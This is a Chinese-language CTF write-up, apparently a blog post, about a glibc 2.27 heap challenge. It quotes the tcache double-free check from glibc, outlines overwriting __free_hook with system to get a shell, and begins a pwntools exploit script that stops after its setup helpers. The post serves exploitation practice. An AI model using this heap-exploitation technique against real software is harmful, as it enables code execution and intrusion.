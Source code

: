 ## Glibc 2.27关于Tcache的增强保护

查询wp后才知道，这题是考在2020年09月10日Ubuntu基金更新的名为2.27-3ubuntu1.3的libc。

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
        /* Check to see if it's already in the tcache.  */
        tcache_entry *e = (tcache_entry *) chunk2mem (p);

        /* This test succeeds on double free.  However, we don't 100%
           trust it (it also matches random payload data at a 1 in
           2^<size_t> chance), so verify it's not an unlikely
           coincidence before aborting.  */
        if (__glibc_unlikely (e->key == tcache))
          {
            tcache_entry *tmp;
            LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
            for (tmp = tcache->entries[tc_idx]; tmp; tmp = tmp->next)
              if (tmp == e)
                malloc_printerr ("free(): double free detected in tcache 2");
                /* If we get here, it was a coincidence.  We've wasted a
                   few cycles, but don't abort.  */
          }

        if (tcache->counts[tc_idx] < mp_.tcache_count)
          {
            tcache_put (p, tc_idx);
            return;
          }
      }
  }
#endif
```

主要是针对tache bins 二次释放的，但是这题fd 不好被控制，edit不能改一当前chunk的fd，自己在昨天实际就默认忽略这思路（雾）

更多具体可以看：

https://www.anquanke.com/post/id/219292#h3-7

## 另一思路

看了大佬的wp发现这题free处指向我们能控制chunk内容的chunk，我们可以修改free_hook写入system 从而写shell。

exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
e=ELF('/glibc/2.27/amd64/lib/libc.so.6')

p=process('./1pwn')


def add(num,size):
	p.sendline('1')
	p.recvuntil('input index')
	p.sendline(str(num))
	p.recvuntil('input size')
	p.sendline(str(size))


```